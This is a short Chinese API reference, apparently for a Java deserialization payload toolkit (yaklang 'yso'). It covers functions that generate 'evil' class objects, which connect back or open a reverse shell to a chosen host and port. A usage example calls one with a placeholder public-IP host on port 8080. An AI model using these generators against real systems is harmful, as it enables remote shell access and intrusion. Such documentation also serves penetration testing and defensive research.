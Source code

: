生成一个使用TcpReverse类模板的ClassObject对象，结合指定的host和port参数以及可选的定制选项。

## 参数说明

```
func GenerateTcpReverseEvilClassObject(host: string, port: int, options: ...GenClassOptionFun) => => (ClassObject, error)
```

**请求参数**

- `host` : 要设置的tcpReverseHost的host
- `options` : 一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象
- `port` : 要设置的tcpReversePort的port

**返回类型**

- `r1` : 成功时返回ClassObject对象
- `r2` : 失败时返回error

## 示例代码

### 基础用法

生成并配置TcpReverse Java对象

```yaklang
host = '公网IP'
token = uuid()
classObject, err := yso.GenerateTcpReverseEvilClassObject(host, 8080, yso.tcpReverseToken(token), additionalOptions...)
```

## 13. `yso.GenerateTcpReverseShellEvilClassObject`

## 功能描述

生成一个使用TcpReverseShell类模板的ClassObject对象，用于在反序列化时反连指定的tcpReverseShellHost和tcpReverseShellPort。

## 参数说明

```
func GenerateTcpReverseShellEvilClassObject(host: string, port: int, options: ...GenClassOptionFun) => => (ClassObject, error)
```

**请求参数**

- `host` : 要设置的tcpReverseShellHost的host。
- `options` : 一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。
- `port` : 要设置的tcpReverseShellPort的port。

**返回类型**

- `r1` : 成功时返回ClassObject对象。
- `r2` : 失败时返回error。
